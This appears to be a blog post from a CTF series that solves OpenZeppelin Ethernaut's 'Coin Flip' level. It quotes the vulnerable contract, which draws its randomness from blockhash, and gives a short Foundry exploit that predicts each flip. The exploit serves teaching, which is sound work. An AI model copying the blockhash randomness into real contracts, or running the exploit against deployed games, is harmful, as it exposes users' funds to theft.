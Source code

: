 ```yaml
---
title: 'Ethernaut Challenge #3 Solution — Coin Flip'
excerpt: 'This is Part 2 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>

For this challenge, our end goal is to be able to consecutively guess the coin flip result by calling the `flip()` function passing the correct guess.
'
coverImage: 
  url: '/assets/blog/ethernaut/fallback.svg'
  credit: 
    name: OpenZeppelin
    url: https://ethernaut.openzeppelin.com/
date: '2020-07-01T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/coinflip.svg'
---
```


This is Part 2 of the ["Let's play OpenZeppelin Ethernaut CTF"](https://stermi.xyz/blog/lets-play-openzeppelin-ethernaut) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

# Challenge #3: Coin Flip

> This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.
>
> Things that might help
>
> - See the Help page above, section "Beyond the console"
>
> Level author(s): [Kyle Riley](https://github.com/syncikin)

For this challenge, our end goal is to be able to consecutively guess the coin flip result by calling the `flip()` function passing the correct guess.

## Study the contracts

First thing that we notice, the Solidity compiler version used is `< 0.8.x`. This mean that the contract would be prone to math underflow and overflow bugs.

This contract is importing and using OpenZeppelin [SafeMath](https://docs.openzeppelin.com/contracts/4.x/api/utils#SafeMath) library, so they should be safe about overflow/underflow problems.

There are three state variables:

- `consecutiveWins` initialized by zero from the `constructor`. This variable will count how many consecutive correct guess we have made
- `FACTOR` that is declared as `57896044618658097711785492504343953926634992332820282019728792003956564819968`. Gas optimization tip: it can be declared as `constant` to save gas (see further reading)
- `lastHash` that will be updated each time by the `flip()` function

The only function inside the contract is `flip()`, let's see what it does

```solidity
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
        revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
        consecutiveWins++;
        return true;
    } else {
        consecutiveWins = 0;
        return false;
    }
}
```

This challenge allows you to learn two important aspects about the blockchain:

1. Everything on the blockchain is public, even private variables like `lastHash` and `FACTOR`
2. There is no real "native" randomness in the blockchain, but only "pseudo randomness"

**Note:** I have added some useful links in the "Further reading" section of the article if you want to learn more about these two topics.

Looking at the code of the function, we know that:

1. We know how to calculate the correct `_guess` function parameter. `_guess = uint256(blockhash(block.number.sub(1))).div(FACTOR) == 1 ? true : false`
2. We know that we cannot call multiple time `flip()` in the same block; otherwise the function will revert. This mean that to pass the challenge, we need to at least guess correctly for 11 blocks. If you look at the Factory contract, you will see that the challenge is solved when `instance.consecutiveWins() >= 10`

Knowing that, let's see the solution.

## Solution code

```solidity
function exploitLevel() internal override {

    vm.startPrank(player);

    uint256 factor = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    uint8 consecutiveWinsToReach = 10;

    while (level.consecutiveWins() < consecutiveWinsToReach) {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(factor);

        level.flip(coinFlip == 1 ? true : false);

        // simulate a transaction
        utilities.mineBlocks(1);
    }
    vm.stopPrank();
}
```

As you see, the solution is pretty straightforward. Loop until the `consecutiveWins()` getter tell us we have reached `10`.

Inside the loop we calculate the value to pass to `flip` replicating the same logic of the `CoinFlip.flip` function.

After calling it, we call `utilities.mineBlock(1);`. This is a utility function that I have created that call Foundry cheat code `vm.roll(targetBlock);` that allow you to set the current block number. Basically, we are just increasing the block number in each loop section to simulate that a new block has been minted.

You can read the full solution of the challenge opening [CoinFlip.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/CoinFlip.t.sol)

## Further reading

- [SWC-120: Weak Sources of Randomness from Chain Attributes](https://swcregistry.io/docs/SWC-120)
- [SWC-136: Unencrypted Private Data On-Chain](https://swcregistry.io/docs/SWC-136)
- [Chainlink VRF (Verifiable Random Function)](https://docs.chain.link/docs/chainlink-vrf/): a provably fair and verifiable random number generator (RNG)
- [Foundry Book Cheat codes](https://book.getfoundry.sh/cheatcodes/)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
